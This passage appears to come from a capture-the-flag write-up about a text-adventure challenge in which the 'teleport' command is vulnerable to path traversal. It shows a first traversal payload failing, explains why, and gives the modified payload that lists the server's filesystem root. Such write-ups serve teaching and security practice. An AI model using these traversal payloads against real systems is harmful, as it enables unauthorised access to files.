 ```shell
[a-mystical-cove] teleport sea-of-tears/along-the-rolling-waves/a-sandy-shore/a-mystical-cove
You have moved to a new location: 'a-mystical-cove'.

You look around and see:
This cave is dark but buzzes with an subtle electricity. A faint wide smile appears to wink at you
from the shadows.

There are the following things here:
  * README (note)

[a-mystical-cove]
```

#### Discovering and Exploiting the Directory Traversal

The presence of '/' characters hint that maybe the rooms are web pages or directories. Attempting
the standard directory traversal payload yields this error message:

```shell
[sea-of-tears] teleport ../../../../../../../
Cannot travel through empty rooms. Pay attention to this!
[sea-of-tears]
```

This error message draws attention to the possibility that the '/' characters are used as delimiters
in splitting the rooms to travel through. So the empty space after the '/' fails the check that a
room must be specified. Modifying the payload slightly allows the attack to succeed, presenting the
filesystem root as an in-game room.

```shell
[a-mystical-cove] teleport ../../../../../..
You have moved to a new location: '..'.

You look around and see:
Darkness fills your senses. Nothing can be discerned from your environment.
You see exits to the:
  * tmp
  * lib
  * media
  * lib64
  * usr
  * etc
  * sbin
  * home
  * srv
  * opt
  * proc
  * mnt
  * lib32
  * dev
  * run
  * libx32
  * sys
  * root
  * boot
  * var
  * bin
  * snap

[..]
```
